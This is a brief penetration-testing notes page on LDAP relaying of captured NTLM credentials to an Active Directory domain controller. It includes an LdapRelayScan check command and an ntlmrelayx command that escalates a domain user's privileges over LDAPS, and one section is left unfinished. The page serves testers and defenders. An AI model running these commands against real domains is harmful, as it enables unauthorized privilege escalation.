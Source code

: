 # LDAP Relaying

LDAP Relaying attacks can make use of NTLM authentication. Similar to [SMB Relaying](smb-relaying.md), an attacker who captures credentials via [MITM6](../networks/ipv6.md) or Responder can then relay them to a domain controller, targeting LDAP.&#x20;

It should be noted that the following two defaults need to be set in order for this to be exploited:

* LDAP Signing Disabled
* [LDAP Channel Binding Disabled](https://support.microsoft.com/en-us/topic/use-the-ldapenforcechannelbinding-registry-entry-to-make-ldap-authentication-over-ssl-tls-more-secure-e9ecfa27-5e57-8519-6ba3-d2c06b21812e)

### Identification

#### LDAPRelayScan

[LDAPRelayScan](https://github.com/zyn3rgy/LdapRelayScan) can be utilized to identify whether LDAP Signing and/or LDAP Channel Binding are enabled or not.

```bash
# Generic usage of LdapRelayScan.py  
LdapRelayScan.py -u $user -p $password -dc-ip $dcipaddress -method BOTH
```

### Exploitation

{% tabs %}
{% tab title="Escalate" %}
Relay captured credentials to LDAPS and escalate the privileges of a specified domain user.&#x20;

```bash
# Relay authentication over LDAPS and attempt to escalate privileges
ntlmrelayx.py -t ldaps://$dcip --escalate-user $username
```
{% endtab %}

{% tab title="Computer Creation" %}
Create a new domain computer by abusing the default attribute
{% endtab %}
{% endtabs %}

### References

{% embed url="https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/" %}

{% embed url="https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/adversary-in-the-middle/ldap-relay" %}
